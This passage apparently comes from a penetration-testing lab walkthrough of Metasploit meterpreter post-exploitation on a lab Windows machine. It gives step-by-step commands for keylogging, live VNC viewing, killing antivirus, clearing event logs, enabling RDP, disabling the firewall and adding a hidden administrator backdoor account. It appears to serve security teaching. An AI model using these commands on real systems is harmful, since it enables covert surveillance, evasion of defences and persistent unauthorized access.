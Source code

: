 Now that we have the shell, we will look into ways in which we will try to exploit the system. When we have a meterpreter session, we can use $`bg` to come in and out of the meterpreter sessions. Sometimes we can have multiple sessions open so to go back and forth we do $`sessions 2` in order to get the session where we want to go. $`sessions` is used to see what sessions we have opened and this is done outside of the session itself in msfconsole. $`msf6 exploit(multi/handler) > sessions`. This will display all the sessions that we have opened. In order to take a screenshot in the victim computer, we hit $`screenshot` once we do that it will give us a display of the screenshot of the victim machine. It will save it in the home/kali folder. 
There are many things that we can do in the meterpreter session in order to utilitze the shell that we have. To see the full list of all the functions we can use. We type in $`help`. We can start a keylogger in order to see what passwords we can use. In order to do so we type in $`keyscan_start`. This will start logging all the keystrokes the victim is typing on. In order to see what they typed we will do a $`keyscan_dump` We can see what they typed and in order to stop it, we do $`keyscan_stop`. 
If you want to see the live view of the victim's machine, then you need to use the command $`vnc` which stands for virtual network computing. We type in $`run vnc -i` $`ps` is another useful command which shows all the running processes in the victim machine. This can be useful for shutting off antivirus machines on the victim's machine. 
In order to cover your tracks as a penetration tester. If we need to clear the logs from the victim machines of the activities we have performed in the machine, we type in $`clearev`. This will clear all the event logs in the victim machine. 
Now that we already have a shell in the victim machine, we can use the postmodules to do nefarious things in the machine. For example if we want to kill the antivirus in the victim machine, we type in $`search type:post kill av` Below is an example. 

![postmodules](https://user-images.githubusercontent.com/93686063/202770755-850a6475-c660-43dd-8766-04e592b79069.JPG)

We can only use the post modules if we have a shell already in the victim's machine. As with using any exploit, we do $`options` to see the parameters that we need to set in order to use it. Since we are Session 4 we will just type in $`set session 4`. After that we just hit $`run`. The result we got for this exploit was $`No Target processes were found`, which means no AV was found. If there were any it would have found 1. 

Now we can try to RDP into the machine which has to be done outside the msfconsole, for that we type in $`rdesktop -u(user) vagrant -p(vagrant) 10.0.2.8:3389(port for rdp not 5555)`. We will not be able to get in because rdp is disabled in the machine. In order to use rdp on the machine, we will have to turn rdp on in the machine. For that we need to go back to our shell. We go to our shell and hit $`back` to get out from our post for av and find one for enable rdp. We type in $`search type:post windows enable_rdp` We hit $`use 0` and do options to see the variable you have to set. Once we hit $`run` we can see that rdp was enabled. 

In order to stay persistent in the victim's machine, we need to use a backdoor, we need to create our own user and hope they dont find out. If we type $`shell` on meterpreter, we will be using the meterpreter as a windows machine and not linux. We need to disable firewall first so that we do not get blocked. In order to do that we type in shell $`C:\Users\vagrant\Desktop>netsh advfirewall set currentprofile state off` We turn the firewall off so that they do not kick us out of the program. Now we will add a user. Type in $`net user guest toor12345/add` Now in order to do anything we need to add our user to admin group so we can get things done. Type in $`net localgroup administrators guest /add` if you get all of that right. You will get the following screen. 

![rdp guest](https://user-images.githubusercontent.com/93686063/202776599-29404b63-dc1a-4765-ac99-77f721586e01.JPG)

